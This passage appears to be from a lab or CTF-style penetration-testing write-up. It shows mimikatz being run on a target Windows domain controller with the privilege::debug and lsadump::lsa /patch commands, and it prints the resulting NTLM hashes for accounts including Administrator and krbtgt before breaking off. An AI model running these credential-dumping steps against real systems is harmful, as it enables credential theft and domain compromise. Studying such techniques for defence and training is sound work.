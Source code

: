 ## Dumping hashes with mimikatz

On the target server run mimikatz

mimikatz output

``` txt
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

.#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ##       > http://blog.gentilkiwi.com/mimikatz
'## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
'#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
```